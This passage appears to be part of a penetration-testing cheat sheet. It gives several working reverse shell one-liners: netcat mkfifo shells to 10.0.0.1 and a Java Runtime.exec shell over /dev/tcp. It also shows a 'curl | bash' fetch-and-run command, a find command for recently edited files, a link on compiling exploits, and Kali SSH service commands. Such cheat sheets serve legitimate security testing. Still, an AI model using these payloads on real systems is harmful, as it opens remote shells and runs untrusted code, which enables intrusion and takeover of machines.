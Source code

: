 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Netcat OpenBSD

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```




### [](#header-3)Misc

Last edited files (10 minutes).

```
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"
```

Compile exploits:

<a href="https://medium.com/@_____________/compiling-exploits-4ec7bb9ec03c" target="_blank">https://medium.com/@_____________/compiling-exploits-4ec7bb9ec03c</a>

Download a file with curl.

```
curl http://some.url --output some.file
```

Download a file and run it with curl.

```
curl http://some.url | bash
```

Start and stop SSH-server Kali.

Start

```
sudo systemctl start ssh.socket 
```

Stop

```
sudo systemctl stop ssh.socket
```


### [](#header-3)Find files with set user ID

